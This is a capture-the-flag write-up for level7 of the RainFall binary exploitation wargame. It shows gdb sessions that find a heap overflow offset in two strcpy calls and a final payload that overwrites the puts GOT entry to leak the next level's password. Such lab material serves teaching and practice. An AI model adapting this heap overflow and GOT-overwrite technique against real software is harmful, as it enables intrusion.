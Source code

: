 We got the binary level7 that do :

	param_2 = av
	puVar1 size of 8
	puVar1 = 1
	puVar2 size of 8
	puVar1[1] = puVar2
	puVar3 size of 8
	puVar3 = 2
	puVar2 size of 8, previous malloced address in puVar1[1]
	puVar3[1] = puVar2, newly allocated address
	copy 1st srgument in puVar1[1], puVar1 as string, so puVar1[1] as char
	copy 2nd srgument in puVar3[1], puVar3 as string, so puVar3[1] as char
	open "/home/user/level8/.pass" in FILE *__stream
	set value of __stream in the global var c for the size of 0x44
	print "~~"

We check the value of the global c

```sh
(gdb) x/x 0x8049960
0x8049960 <c>:  0x00000000
```

When we try 

```sh
level7@RainFall:~$ ./level7 test re
~~
```

It works so the flag is in the global c, but if we want to check the value with gdb we don't have the rights to open the flag's file

On top of that we have 2 strcpy that are vuln to stack overflow but here the destination is on the heap

```
Program received signal SIGSEGV, Segmentation fault.
0xb7e90ba7 in fgets () from /lib/i386-linux-gnu/libc.so.6
```

## Find offset of the heap overflow

```sh
(gdb) run AAAABBBBCCCCDDDDEEEEFFFF test
(gdb) info registers
eax            0x74736574       1953719668
ecx            0xbffff910       -1073743600
edx            0x46464646       1179010630
ebx            0xb7fd0ff4       -1208152076
esp            0xbffff6ec       0xbffff6ec
ebp            0xbffff718       0xbffff718
esi            0x0      0
edi            0x0      0
eip            0xb7eb1922       0xb7eb1922
eflags         0x210246 [ PF ZF IF RF ID ]
cs             0x73     115
ss             0x7b     123
ds             0x7b     123
es             0x7b     123
fs             0x0      0
gs             0x33     51
```
> So the offset is 6

```sh
(gdb) backtrace
#0  0xb7eb1922 in ?? () from /lib/i386-linux-gnu/libc.so.6
#1  0x080485c2 in main ()
(gdb) disas 0x080485c2
[...]
0x080485bd <+156>:   call   0x80483e0 <strcpy@plt>
0x080485c2 <+161>:   mov    $0x80486e9,%edx
```
> The offset goes to the 2nd strcpy

```sh
(gdb) disas 0x8048400
Dump of assembler code for function puts@plt:
   0x08048400 <+0>:     jmp    *0x8049928
   0x08048406 <+6>:     push   $0x28
   0x0804840b <+11>:    jmp    0x80483a0
End of assembler dump.
```
> We will replace the puts call in the GOT to our function

run `/bin/echo -ne "AAAABBBBCCCCDDDDEEEE\x00\x84\x04\x08"` `/bin/echo -ne "\xf4\x84\x04\x08"`

